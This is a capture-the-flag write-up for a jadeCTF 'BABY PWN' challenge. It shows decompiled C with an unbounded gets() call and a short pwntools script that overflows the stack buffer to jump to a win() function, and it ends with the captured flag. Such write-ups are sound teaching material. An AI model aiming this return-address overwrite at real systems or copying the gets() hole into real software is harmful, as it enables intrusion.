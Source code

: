 # BABY PWN
We are given a binary.  
On analysin it with Ghidra, we find the `start_program()` function:
```c
void start_program(void)

{
  char local_208 [512];
  
  puts("Enter your name:");
  gets(local_208);
  printf("Hello %s, welcome to jadeCTF!\n",local_208);
  return;
}
```
This is a simple Buffer Overflow. There is also a `win()` function which we need to call:
```c
void win(void)

{
  char local_78 [104];
  FILE *local_10;
  
  puts("Nice job :)");
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    puts("Sorry, flag doesn\'t exist.");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  fgets(local_78,100,local_10);
  printf("Here is your flag: %s\n",local_78);
  return;
}
```
We can overflow the `local_208` variable and call the `win()` function to get the flag. The solve script:
```py
from pwn import *

BINARY = "chall"

context.binary = BINARY
elf = context.binary

# p = elf.process()
p = remote("34.76.206.46", 10002)

OFFSET = 0x200 + 8

payload = cyclic(OFFSET)
payload += p64(elf.symbols["win"])

p.sendlineafter(b"Enter your name:\n", payload)
p.interactive()
```
FLAG: `jadeCTF{buff3r_0v3rfl0ws_4r3_d4ng3r0u5}`